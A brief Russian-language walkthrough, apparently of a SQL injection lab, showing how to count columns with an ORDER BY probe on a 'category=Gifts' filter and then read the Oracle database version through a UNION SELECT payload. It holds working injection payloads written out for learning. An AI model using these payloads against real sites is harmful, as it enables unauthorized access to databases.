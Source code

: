 В запросе filter?category=Gifts узнаем количество колонок, через выражение ORDER BY

`filter?category=Gifts' ORDER BY 2 -- -`

После того, как узнали количество колонок, запросим версию

`' UNION SELECT banner, null FROM v$version -- -`